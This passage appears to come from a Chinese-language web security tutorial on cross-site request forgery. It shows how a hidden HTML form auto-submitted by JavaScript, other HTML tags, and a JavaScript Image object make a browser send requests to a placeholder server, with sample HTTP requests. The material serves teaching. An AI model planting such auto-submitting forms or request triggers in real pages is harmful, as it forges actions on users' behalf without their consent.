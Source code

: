 ```
GET http://server/path/ HTTP/1.1
Host: host
User-Agent: Firefox/1.5.0.1
Content-length: 0
```



表单也可用于：

```
<FORM ACTION=”http://server/path/” NAME=”myform” METHOD=”POST”>
<INPUT TYPE=”HIDDEN” NAME=”Username” VALUE=”Foo”>
<INPUT TYPE=”HIDDEN” NAME=”Password” VALUE=”Bar”>
</FORM>
```

然后使用 JavaScript，我们可以自动提交表单：

```
<SCRIPT language=”JavaScript”> document.myform.submit();
</SCRIPT>
```

浏览器发送的 HTTP POST 请求类似如下：

```
POST http://server/path/ HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 25

Username=Foo&Password=Bar
```

一个 JavaScript 发起的表单提交可能导致的网络浏览器发出一个警告对话框，用户可能会进行点击。其他的 html

标签包括 APPLET，BASE，BODY，EMBED，LAYER，META，OBJECT，LINK，SCRIPT 和 STYLE 也可以达到同样的效果。

## JavaScript DOM 对象

```
var img = new Image();
img.src = “http://server/path/”;
```


浏览器发送一个 HTTP GET 请求类似如下：

```
GET http://server/path/
HTTP/1.1
Host: server
User-Agent: Firefox/1.5.0.1
Content-length: 0
```

使用 JavaScript DOM 对象创建一个 HTML 表单：
